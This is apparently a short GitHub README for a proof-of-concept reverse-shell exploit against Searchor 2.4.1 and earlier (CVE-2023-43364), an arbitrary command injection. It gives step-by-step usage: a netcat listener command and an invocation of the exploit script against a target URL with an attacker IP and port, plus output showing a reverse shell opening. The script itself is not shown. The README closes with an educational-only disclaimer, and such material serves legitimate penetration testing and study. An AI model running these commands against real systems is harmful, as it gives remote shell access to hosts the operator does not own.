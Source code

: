 # Searchor-2.4.0-Arbitrary-CMD-Injection-Python
Reverse shell exploit for Searchor &lt;=2.4.1

## How to get reverse shell
1. Start netcat listener of your host machine.
```
nc -nvlp 8888
```
2. Run the exploit.
```
python3 CVE-2023-43364.py -u http://example.com/ -rh 10.10.10.11 -rp 8888
Connection Established Successfully.
Trying to open a reverse shell on 10.10.10.11 at 8888...
```

## Disclaimer
This POC was created for educational purposes only.
